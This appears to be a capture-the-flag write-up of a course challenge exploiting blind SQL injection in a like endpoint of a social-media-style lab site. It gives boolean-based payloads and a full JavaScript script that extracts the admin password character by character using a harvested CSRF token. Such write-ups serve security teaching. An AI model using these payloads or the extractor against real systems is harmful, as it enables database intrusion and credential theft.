

I was playing around with this challenge for the whole day. It's a Facebook-like site where you can register or login. But here's the catch - from what I understand at least, the server filters the login form hardcore and throws a "NO HACKING ALLOWED!!" message when you use anything that's not alphanumeric. Even spaces aren't allowed!

## My Trial and Error Phase

Now, I did try a bunch of different stuff with no success, and I can't possibly go over everything (nor is it necessary). But the important breakthrough came when I:

1. Created a test user and actually logged in
2. Got access to the main site with all these "faces" and like buttons
3. Realized: "Hey, if it's remembering my likes, it must be hitting some backend!"

That's when I dug into the source code and found this juicy bit:

```javascript
<script type="text/javascript">
$(document).ready(function() {
  $('.facebutton').click(function() {
    $.ajax({
      type:'POST',
      url:'/face',
      data:"id="+$(this).attr('id').substring(1)+"&csrf=0000a668324601dbf4f1178ba8c7a7abe3217f0829bc0ba86e383d4d596028b6cc0b68",
      success: function() { location.reload(); }
    })
  });
});
</script>
```

## About That CSRF Token

Notice that CSRF value? That's our golden ticket! Here's what I figured out about it:

- It's hardcoded right there in the script (which is great for us)
- But it's not forever - sometimes after inactivity it expires
- When it's expired, you get that "DONT HACK" message
- Pro tip: Just reload the page to get a fresh one!

## Manual Request Testing

Instead of clicking buttons like a normie, I went straight to the console with:

```javascript
fetch("/face", {
  method: "POST",
  headers: {
    "Content-Type": "application/x-www-form-urlencoded",
  },
  body: new URLSearchParams({
    id: "1",
    csrf: "0000a668324601dbf4f1178ba8c7a7abe3217f0829bc0ba86e383d4d596028b6cc0b68",
  }),
})
  .then((response) => response.text())
  .then((text) => console.log(text))
  .catch((err) => console.error(err));
```

Normal responses:

- If you already liked it: `{"success": false}`
- New like: `{"success": true}`

## The Big Discovery - SQL Injection!

I thought: "What if I try SQL injection on the ID parameter?" So I tested with a simple quote:

```javascript
id: `'`;
```

Boom! 500 Internal Server Error! The server basically choked on my quote. Here's what I got:

```
POST http://shell.hackintro25.di.uoa.gr:56205/face 500 (INTERNAL SERVER ERROR)
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>500 Internal Server Error</title>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error and was unable to complete your request...</p>
```

Jackpot! SQL injection confirmed. But here's the catch - it's blind injection. We don't get direct output, but we can play detective based on the responses.

## Blind SQL Injection Techniques

### Step 1: Figuring Out the Database Structure

First I tried to guess column names. My first attempt failed:

```javascript
id: `1' AND (SELECT COUNT(*) FROM users WHERE username='AlexTuring')=1--`;
```

Crash! Because the column wasn't "username" - turns out it's just "name". After some trial and error, I confirmed there's also a "password" column.

### Step 2: Determining Password Length

To find how long the admin's password is, I used:

```javascript
id: `1' AND (SELECT LENGTH(password) FROM users WHERE name='Admin') < n--`;
```

Here's what I noticed:

- If TRUE: `{"success": false}`
- If FALSE: `<h1 style="color:red">HEY, AlexTuring! STOP TRYING TO HACK US! WE KNOW WHO YOU ARE!!!!</h1>`

**Important Note:** That scary red message can also appear when your CSRF token expires! So always:

1. Keep your token fresh
2. Don't jump to conclusions
3. When in doubt, reload and try again

After testing different values for n, I determined the password is exactly 31 characters long.

## The Automated Solution

Manually testing each character would take forever, so I built this bad boy:

```javascript
class PasswordCracker {
  constructor() {
    this.csrfToken = "YOUR_NEW_CSRF_TOKEN"; // Change to your real fresh csrf token
    this.adminPassword = "when_will_"; // If you know the password starts wth "when_will_" you can continue from there
    this.passwordLength = 31; // If you want to start from scratch just set adminPassword = ""
    this.charset =
      "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_!@#$%^&*()-=+";
    this.currentPosition = this.adminPassword.length + 1;
    this.isRunning = false;
    this.delay = 100;
  }

  async initializeLike() {
    try {
      const response = await fetch("/face", {
        method: "POST",
        headers: { "Content-Type": "application/x-www-form-urlencoded" },
        body: new URLSearchParams({
          id: "1",
          csrf: this.csrfToken,
        }),
      });
      const text = await response.text();
      if (!text.includes('"success"')) {
        console.warn("Initial like request may have failed. Response:", text);
      }
      return true;
    } catch (err) {
      console.error("Initial like request failed:", err);
      return false;
    }
  }

  async testChar(position, char) {
    const payload = `1' AND (SELECT SUBSTR(password,${position},1) FROM users WHERE name='admin')='${char}'--`;
    try {
      const response = await fetch("/face", {
        method: "POST",
        headers: { "Content-Type": "application/x-www-form-urlencoded" },
        body: new URLSearchParams({ id: payload, csrf: this.csrfToken }),
      });
      const text = await response.text();
      return text.includes('"success": false');
    } catch (err) {
      console.error("Request failed:", err);
      return false;
    }
  }

  async bruteForce() {
    if (this.isRunning) return;
    this.isRunning = true;
    this.createUI();

    try {
      this.updateStatus("Initializing... making test like");
      const initialized = await this.initializeLike();

      if (!initialized) {
        this.updateStatus("Failed to initialize. Check console.");
        return;
      }

      for (
        let pos = this.currentPosition;
        pos <= this.passwordLength && this.isRunning;
        pos++
      ) {
        let found = false;
        this.updateStatus(`Testing position ${pos}...`);

        for (const char of this.charset) {
          if (!this.isRunning) break;

          this.updateCharTest(char);
          if (await this.testChar(pos, char)) {
            this.adminPassword += char;
            this.currentPosition = pos + 1;
            this.updateProgress();
            found = true;
            break;
          }
          await new Promise((resolve) => setTimeout(resolve, this.delay));
        }

        if (!found && this.isRunning) {
          this.updateStatus(`Stuck at position ${pos}. CSRF expired?`);
          break;
        }
      }

      if (this.adminPassword.length === this.passwordLength && this.isRunning) {
        this.showResult("SUCCESS! Password: " + this.adminPassword);
      }
    } finally {
      this.isRunning = false;
      if (this.actionBtn) {
        this.actionBtn.textContent = "CLOSE";
        this.actionBtn.onclick = () => {
          if (this.ui && document.body.contains(this.ui)) {
            document.body.removeChild(this.ui);
            this.ui = null;
          }
        };
      }
    }
  }

  createUI() {
    if (this.ui) document.body.removeChild(this.ui);

    this.ui = document.createElement("div");
    this.ui.style.cssText = `
      position: fixed; top: 10px; right: 10px;
      background: #000; padding: 15px;
      border: 1px solid #0f0; z-index: 9999;
      font-family: 'Courier New', monospace; 
      color: #0f0; width: 300px;
    `;

    const title = document.createElement("div");
    title.textContent = "SQLi CRACKER v1.1";
    title.style.cssText = `
      font-weight: bold; border-bottom: 1px solid #0f0;
      padding-bottom: 5px; margin-bottom: 10px;
    `;

    this.statusEl = document.createElement("div");
    this.charEl = document.createElement("div");
    this.progressEl = document.createElement("div");
    this.progressEl.style.margin = "10px 0";

    this.actionBtn = document.createElement("button");
    this.actionBtn.textContent = "ABORT";
    this.actionBtn.style.cssText = `
      background: #000; color: #0f0;
      border: 1px solid #0f0; padding: 5px 10px;
      font-family: 'Courier New', monospace;
      cursor: pointer; width: 100%;
    `;
    this.actionBtn.onclick = () => {
      this.isRunning = false;
      this.actionBtn.textContent = "CLOSE";
      this.actionBtn.onclick = () => {
        document.body.removeChild(this.ui);
        this.ui = null;
      };
    };

    this.ui.appendChild(title);
    this.ui.appendChild(this.statusEl);
    this.ui.appendChild(this.charEl);
    this.ui.appendChild(this.progressEl);
    this.ui.appendChild(this.actionBtn);
    document.body.appendChild(this.ui);
  }

  updateStatus(msg) {
    if (this.statusEl) this.statusEl.textContent = msg;
    console.log(msg);
  }

  updateCharTest(char) {
    if (this.charEl) {
      this.charEl.textContent = `Testing: ${char}`;
      this.charEl.style.fontWeight = "bold";
    }
  }

  updateProgress() {
    if (this.progressEl) {
      this.progressEl.innerHTML = `
        <div>Current: ${this.adminPassword}</div>
        <div>Progress: ${this.currentPosition}/${this.passwordLength}</div>
      `;
    }
    console.log(`Progress: ${this.adminPassword}`);
  }

  showResult(msg) {
    if (!this.ui) return;

    const result = document.createElement("div");
    result.style.cssText = "color: #0f0; font-weight: bold; margin-top: 10px;";
    result.textContent = msg;
    this.ui.appendChild(result);
    console.log(msg);
  }
}

// Usage:
const cracker = new PasswordCracker();
cracker.bruteForce();
```

### Why This Script Rocks

1. **Resume Capability**: If your CSRF expires mid-crack (happened to me once), just:

   - Get a fresh token
   - Paste your half-completed password
   - It picks up where you left off

2. **Visual Feedback**: It creates a little UI in the corner showing:

   - Current character being tested
   - Progress so far
   - Status messages

3. **Control**: You can stop it anytime with the stop button



## Final Thoughts

The complete workflow is:

1. Register/login as a normal user
2. View source to grab the CSRF token
3. Paste it into the script
4. Run in console
5. Watch the magic happen!
